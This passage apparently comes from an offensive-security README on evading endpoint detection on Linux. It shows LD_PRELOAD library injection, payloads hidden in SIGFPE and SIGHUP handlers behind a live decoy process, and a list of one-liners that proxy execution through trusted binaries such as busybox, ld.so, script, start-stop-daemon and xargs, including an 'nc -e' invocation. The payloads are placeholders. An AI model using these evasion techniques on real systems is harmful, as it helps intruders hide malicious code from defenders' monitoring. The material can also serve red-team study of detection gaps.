 `$ kill -HUP 126946`


Note: External asynchronous trigger of a code branch. This can also help with sandbox profiling .


#### 0x4:B. A variation on the theme: Fault based (SIGFPE) handlers

Expanation: self-triggered fault (e.g. division by 0) and recovery handler. 
Payload is left in the recovery handler code. Keeping the decoy process alive, but evading IoC chain detection.

`$ LD_PRELOAD=lib/libinterrupt.so /bin/ls`

```sh
$ LD_PRELOAD=lib/libinterrupt.so bin/main
Before main()
Trigger SIGFPRE handler
In SIGFPE handler
1 / 0: caught division by zero!
Executing payloads here ...
```


## Expanding  and Scaling the evasion capabilities.
Or, _Guiding the ant to it's final destination._

- Hiding from EDRs via existing trust binaries decoys.
- Expanding dynamic scripting capabilities in the field.
- Progressive LD_PRELOAD command line evaders.
- Evaders with Self-preservation instincts.

### 0xInline Evasion via `busybox` and `ld.so` loader:
Basic Example:

`/bin/busybox /bin/ls`

` LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  ls `

`LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  find /bin -name cat -exec /bin/ls / \; `

`LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  nc -f /dev/pts/0  -e /bin/ls`

`LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  openvt -c 5  -w /bin/ls > /tmp/ls.out`

`LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so script -c /bin/ls`

`LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so busybox setsid  -c /bin/ls`

`LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so start-stop-daemon -x /bin/ls --start`

`LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so taskset 0x00000001 /bin/ls`

`LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so echo | xargs /bin/ls`
